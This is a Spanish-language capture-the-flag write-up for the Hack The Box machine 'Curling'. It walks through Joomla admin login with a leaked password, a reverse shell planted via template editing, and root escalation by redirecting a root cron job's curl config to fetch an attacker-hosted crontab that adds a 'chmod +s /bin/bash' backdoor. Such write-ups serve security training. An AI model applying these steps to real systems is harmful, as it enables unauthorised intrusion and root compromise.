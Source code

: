 # Curling ![Avatar](https://www.hackthebox.eu/storage/avatars/50cbb1d2e9b638140641af95a7582ef6_thumb.png)

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
```
## Enum
### HTTP
Mirando en el fuente de la landing page vemos lo siguiente
```html
      <!-- secret.txt -->
```
Veamos que en ese archivo hay una string
```
Q3VybGluZzIwMTgh
```
Si lo decodificamos como base64 vemos que es este string
```
Curling2018!
```
Parece una contraseña, probemos usuarios comunes y esa password a ver si hay suerte, en principio nada, mirando mas a fondo vemos que hay un post firmado por Floris , con esto podemos logearnos en el servicio
#### Joomscan
Joomscan reporta que la version es
```
[+] Detecting Joomla Version
[++] Joomla 3.8.8
```
Buscando vulns de la version encontramos un RCE y un LFI
```
RCE: CVE-2018-17856
LFI: CVE-2019-10945
```
No encontre información sobre como explotar el RCE, pero editando la template activa podemos obtener una rev shell sin mucho problmea, para ello:
* 1. Nos logueamos desde el login de /administrator
* 2. Vamos a la pestaña de Templates
* 3. Editamos la template activa
* 4. Añadimos al codigo una reverse shell
* 5. Enjoy

Una vez tenemos shell como www-data podemos ver un archivo llamado password backup en el /home de floris,si lo miramos vemos que es un hexdump de algo, vamos a cyberchef y hacemos la siguiente receta
```
From_Hexdump()
Bzip2_Decompress(false)
Gunzip()
Bzip2_Decompress(false)
Untar()
``` 

Y vemos el siguiente stream
```
5d<wdCbdZu)|hChXll
```
Con esa contraseña podemos logearnos como floris

## Privesc 
Podemos ver el siguiente trabajo en segundo plano
```
root     21763  0.0  0.0   4628   836 ?        Ss   14:08   0:00 /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
root     21765  0.0  0.4 105360  9020 ?        S    14:08   0:01 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Si miramos el parametro -K podemos ver que lo que hace es coger un archivo de configuracion, en este caso con una URL, si cambiamos esa URL a la nuestra y añadimos un parametro output tal que asi:
```
url = "http://IPproia/crontab"
output = "/etc/crontab"
```
Y en local creamos un crontab con la siguiente tarea (o otra similar como una rev shell o lo que sea)
```
* * * * *   root chmod +s /bin/bash 
```
Con esto cuando se ejecute la tarea, y se ejecute la del crontab tendremos nuestra backdoor

# Analisís de la intrusion
### Sensible data leak
Las credenciales de acceso a Joomla estan expuestas en el blog Joomla, lo que nos permitio compromenterlo
### Vulnerable joomla version
La versión de joomla nos permite subir una reverse shell a las templates, cosa que aprovechamos para obtener una shell
### Pasword_backup
El usuario floris tiene un backup accesible por www-data de su contrasña, el acceso a www-data nos permitio gracias a esto acceder a floris
### Vuln cronjob
Existe un trabajo programado para el root del que pudimos abusar ya que coge parametros de un archivo que floris podia editar
